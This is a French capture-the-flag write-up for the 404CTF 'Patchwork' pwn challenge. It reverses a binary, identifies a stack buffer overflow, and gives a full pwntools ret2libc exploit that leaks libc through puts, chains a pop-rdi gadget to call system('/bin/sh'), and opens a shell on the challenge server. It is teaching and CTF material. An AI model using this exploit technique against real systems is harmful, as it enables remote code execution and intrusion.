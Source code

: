 # Patchwork

> Agent, suite aux précieuses informations que vous nous avez communiquées, nous avons pu continuer nos recherches sur les méthodes employées par Hallebarde pour rentrer en contact avec les scientifiques français. Nous avons récemment trouvé ce qui semble être un portail de recrutement de Hallebarde. Essayez d'obtenir d'autres informations à ce sujet ou introduisez-vous dans le réseau de Hallebarde.
>
> nc challenge.404ctf.fr 30690

En plus du binaire, on nous donne gracieusement la librairie utilisée.

## Description

Reversons le binaire avec Ghidra, la fonction `main` est la suivante :

```c
undefined8 main(void)
{
  char local_88 [64];
  char local_48 [56];
  char *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_00400788);
  puts(&DAT_004007f8);
  fgets(local_88,0x32,stdin);
  local_10 = strstr(local_88,"scientifique");
  if (local_10 == (char *)0x0) {
    puts(&DAT_004008d4);
  }
  else {
    puts(&DAT_00400840);
    fgets(local_48,0x78,stdin);
    puts("Merci, nous reviendrons vers vous sous peu.");
  }
  return 0;
}
```

On remarque un buffer overflow sur `local_48`: on peut entrer 0x78 caractères mais le buffer n'en fait que 56.

Contrairement au challenge [SansProtection](SansProtection.md), cette fois ci des protections sont présentes:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Heureusement pour nous, pas de canary ni PIE, donc on va pouvoir effectuer un ret2libc.

### ret2libc

Comme on ne peut pas entrer notre propre shellcode car la stack n'est pas exécutable, le principe est d'utiliser la bibliothèque C qui comporte déjà les fonctions que l'on souhaite pour lancer un shell.

L'objectif est d'effectuer l'appel de fonction `system("/bin/sh")`.
Pour ce faire, on a plusieurs étapes:
1) trouver l'adresse de base de la libc (pour trouver l'adresse en mémoire de `system` et de la chaîne de caractères `/bin/sh`);
2) mettre la chaîne de caractère dans le registre `rdi` grâce à un gadget;
3) Effectuer l'appel à la fonction.

## Solution

Le code suivant permet d'effectuer l'attaque:

```python
#!/usr/bin/env python3
from pwn import *

## Launching the program (remote, local or with GDB)
elf = ELF("./recrutement")
rop = ROP(elf)
libc = ELF("libc.so.6")

context.binary = elf
addr = "challenge.404ctf.fr"
port = 30690

def conn():
    if args.LOCAL:
        if args.GDB:
            r = process(["gdb", elf.path])
            r.recvuntil(b"gef\xe2\x9e\xa4")
            r.sendline(b"r")
        else:
            r = process([elf.path])
    else:
        r = remote(addr, port)

    return r

# OFFSET needed to overflow the buffer until the saved rip
OFFSET = b"a" * (56 + 8 + 8)

# address of MAIN
MAIN = elf.symbols['main']

def get_addr(sh, func_name):
    PUTS_PLT = elf.plt['puts']
    POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
    RET = (rop.find_gadget(['ret']))[0]
    FUNC_GOT = elf.got[func_name]
    print(func_name + " GOT @ " + hex(FUNC_GOT))
    
    payload = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(RET) + p64(MAIN) 
    sh.sendline(payload)
    sh.recvline()

    recv = sh.recvline().strip()
    leak = u64(recv.ljust(8, "\x00".encode()))
    print("Leaked libc address,  "+func_name+": "+ hex(leak))
    libc.address = leak - libc.symbols[func_name]
    
    return leak

def launch_shell(sh):
    SYSTEM = libc.symbols["system"]
    BINSH = next(libc.search(b"/bin/sh"))
    POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
    
    payload = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
    sh.sendline(payload)

def main():
    r = conn()
    r.recvuntil(b"profession :\n")
    r.sendline(b"scientifique")
    r.recvuntil(b"candidature :\n")
    
    get_addr(r, "puts")
    r.recvuntil(b"profession :\n")
    r.sendline(b"scientifique")
    r.recvuntil(b"candidature :\n")
    

    launch_shell(r)

    r.interactive()


if __name__ == "__main__":
    main()
```

Flag : `404CTF{C3_r3CrU73M3N7_N357_P45_53CUr153!}`